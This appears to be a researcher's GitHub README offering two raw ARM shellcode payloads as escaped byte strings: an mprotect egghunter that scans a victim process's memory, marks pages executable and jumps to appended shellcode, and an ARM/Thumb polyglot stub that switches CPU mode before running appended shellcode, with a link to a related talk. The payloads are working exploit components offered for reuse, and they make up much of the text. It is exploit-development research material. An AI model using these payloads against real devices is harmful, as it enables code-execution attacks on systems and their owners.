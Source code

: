 ARM Shellcode
=============

## 1. mprotect egghunter ##

- Searches for an EGG (4+4 byte value) in the memory of the exploited process.
- Uses mprotect() to test the presence of pages in the virtual memory space of the target process.
- mprotect() also marks pages RWX as it scans the virtual memory space.
- Upon finding the pre-defined EGG occuring at consecutive locations, the mprotect egghunter passes on the execution control to the shellcode appended to the eggs.

RAW SHELLCODE:
```
$mprotect_egghunter = "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x6d\x40\x7d\x27\x01\x21\x09\x03\x07\x22\x28\x1c\x01\xdf\x0c\x30\x01\xd1\x6d\x18\xf9\xe7\x6e\x18\x05\x48\x2b\x68\x04\x35\xb5\x42\xf3\xd0\x2c\x68\x98\x42\xf8\xd1\xa3\x42\xf6\xd1\x04\x35\x28\x47HACK";
```

## 2. Quantum Leap code ##

- ARM/Thumb Polyglot code.
- Can be started in ARM mode or Thumb mode.
- Irrespective of the mode it is started in, the Quantum Leap code will switch the CPU to Thumb mode and proceed to execute any Thumb shellcode appended to it.

RAW SHELLCODE:
```
$quantum_leap_stub = "\x19\xa0\x8f\x22\x15\xa0\x8f\x32\x0d\x40\xa0\x21\x0d\x40\xa0\x31\x12\x04\x2d\x29\x12\x04\x2d\x39\x02\xa0\xbd\x28\x02\xa0\xbd\x38";
```

For more details please browse through my presentation titled "Make ARM Shellcode Great Again" at https://www.slideshare.net/saumilshah/make-arm-shellcode-great-again

@therealsaumil

